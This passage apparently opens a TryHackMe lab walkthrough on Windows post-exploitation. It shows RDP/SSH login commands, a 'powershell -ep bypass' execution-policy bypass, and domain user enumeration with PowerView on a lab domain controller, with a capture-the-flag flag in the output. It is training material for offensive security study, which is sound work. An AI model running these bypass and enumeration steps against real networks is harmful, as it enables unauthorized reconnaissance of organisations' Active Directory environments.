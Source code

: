 ```yaml
---
title: TryHackMe - Windows Post-exploitation basics
date: 2021-06-28 19:27:55 +0100
categories: [TryHackMe walkthroughs, Windows]
tags: [thm-windows, Active Directory, Domain Controller, Kerberos, RDP, PowerView, SharpHound, Bloodhound, mimikatz, password cracking, hashcat, Golden Ticket, msfvenom, backdoor, Metasploit persistence module, oscp-prep]
image: /assets/img/thm/windows/windows-post-exploitation-basics/windows-post-exploitation-basics.png
pin: true
---
```


This [room](https://tryhackme.com/room/postexploit) from TryHackMe cover some basic tools used during Windows Post-exploitation such as `PowerView`, `Bloodhound` and `mimikatz`.

```bash
# RDP
xfreerdp /u:<USER> /p:<PASSWORD> /v:<IP> /cert:ignore

rdesktop -u <USER>  -p <PASSWORD> <IP>:3389

# OR SSH
ssh Administrator@10.10.180.147
```

___

## Enumeration w/ `PowerView`

`PowerView` is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

```powershell                                                                                             
(c) 2018 Microsoft Corporation. All rights reserved.

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> . .\Downloads\PowerView.ps1
```

### Enumerating domain users

```powershell
PS C:\Users\Administrator> Get-NetUser | select cn 

cn                  
--                  
Administrator       
Guest                       
krbtgt                      
Machine-1                   
Admin2                      
Machine-2                   
SQL Service                 
POST{P0W3RV13W_FTW}         
sshd 
```
